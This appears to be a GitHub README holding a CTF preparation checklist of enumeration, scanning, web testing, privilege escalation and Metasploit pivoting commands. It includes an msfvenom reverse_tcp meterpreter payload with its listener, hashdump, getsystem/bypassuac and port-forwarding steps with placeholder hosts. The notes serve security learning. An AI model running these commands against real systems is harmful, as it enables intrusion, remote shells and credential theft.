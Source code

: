 # Prep for CTFs

## Enumeration
### OSINT
- [ ] Social Media
- [ ] CrunchBase
- [ ] SAM - System for Award Managment

### Reccy
#### Subdomain Enumeration
- [ ] whois
- [ ] nslookup
- [ ] dnsdumpster
- [ ] Sublist3r
- [ ] crt.sh
- [ ] amass
<details>
<summary> amass install  </summary>
	<pre>$ sudo apt install snapd </pre>
	<pre>$ service snapd start </pre>
	<pre>$ snap install amass </pre>
	<pre>$ snap run amass </pre>
</details>

### In-Depth Scanning
- [ ] ping / pingsweep / masscan
- [ ] Verify UDP / TCP
- [ ] Verify FWs
- [ ] OS Type
<details>
<summary>Common nmap options </summary>
	<words> Firewalls 
	<pre>$ nmap -Pn </pre>
	</words>
</details>

## Web App
- [ ] Banner - http/s
<details>
<summary> Grabbing Banners </summary>
	<pre>$ nc <target> <port> </pre>
	<pre>$ <verb> / /http/1.0 </pre>
	<br>
	<words>When dealing with https</words>
	<pre>$ openssl s_client -connect target.top-level domain:port </pre>
	<pre>$  <verb> / http/1.0 </pre>
</details>

- [ ] httprint (signature based)
<details>
<summary> Using httprint </summary>
	<pre>$ httprint -P0 -h <target hosts> -s <signature file> -> automatic fingerprinting </pre>
</details>

- [ ] OPTIONS
- [ ] Check for uploads
- [ ] Proxy the site(s)  (BurpSuite, ZAP)
- [ ] Dirb, gobuster, feroxbuster, etc
- [ ] XSS (Expand)
- [ ] Types of XSS
- [ ] SQL (Expand)
<details>
<summary> SQL Good Stuff </summary>
	<words> Basic MySQL </words>
	<pre>$ mysql -h ip -u root -ppassword (-p[nospace]password) </pre>
		
</details>

## System Exploitation
### Vulnerability Scanning
- [ ] OpenVAS, Nessus, nmap, GFI Lan Guard

### System PrivEsc
- [ ] Linenum.sh
- [ ] Unshadow
- [ ] Hydra
- [ ] Windows Shares
- [ ] msfconsole
<details>
<summary> Common Metasploit Tools </summary>
	<words> Background Sessions </words>
	<pre>$ background (while in meterpreter) </pre>
	<pre>$ sessions -i </pre>
	<pre>$ sessions -i # (session #) </pre>
	<words> Common Commands </words>
	<pre>$ sysinfo, ipconfig, route, getuid </pre>
	<words> Common Utilities </words>
	<pre>$ download x, upload x, use post/windows/gather/hashdump </pre>
	<words> Automated PrivEsc </words>
	<pre>$ getsystem </pre>
	<words> OR </words>
	<pre>$ bypassuac </pre>
	<words> Common Meterpreter Payloads with msfvenom </words>
	<pre>$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f elf > payload.bin</pre>
	<words> Listener </words>
	<pre>$ use exploit/multi/handler </pre>
	<pre>$ set payload linux/x64/meterpreter/reverse_tcp </pre>
	<pre>$ set LHOST ip </pre>
	<pre>$ set LPORT port </pre>	
</details>

### Pivoting
- [ ] Route
- [ ] Metasploit autoroute
<details>
<summary> Metasploit Pivoting </summary>
	<words> Background Sessions </words>
	<pre>$ run autoroute -s ip/subnet </pre>
	<pre>$ run autoroute -p (shows routes)</pre>
	<words> Port Forwarding </words>
	<pre>$ portfwd add -l 9999 -p 20 -r ip </pre>
	<pre>$ portfwd list </pre>
	<br>
	<words> Using Metasploit as a SOCKS Proxy </words>
	<pre>$ use auxiliary/server/socks_proxy </pre>
	<pre>$ set VERSION 4a </pre>
	<pre>$ set SRVPORT 9050</pre>
	<pre>$ run -j </pre>
</details>


